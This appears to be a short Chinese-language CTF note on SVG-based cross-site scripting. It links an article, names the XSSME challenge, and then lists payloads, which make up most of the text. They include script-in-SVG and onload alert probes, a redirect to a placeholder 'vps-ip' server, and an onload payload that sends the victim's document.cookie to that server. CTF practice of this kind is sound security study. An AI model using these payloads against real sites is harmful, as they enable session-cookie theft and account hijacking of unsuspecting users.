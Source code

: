 # 文章
[浅谈SVG的两个黑魔法 - 合天网安实验室 - 博客园](https://www.cnblogs.com/hetianlab/p/14067692.html)
### 例题
XSSME<br />题目地址：[https://xssrf.hackme.inndy.tw/](https://xssrf.hackme.inndy.tw/)
### Payload
```powershell
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
   <circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
   <script>alert(1)</script>
</svg>
```
```powershell
<svg/onload=alert(1)>
<svg/onload="document.location='http://vps-ip:1234'">
<svg/onload="document.location='http://vps-ip:1234/?'+document.cookie">
```
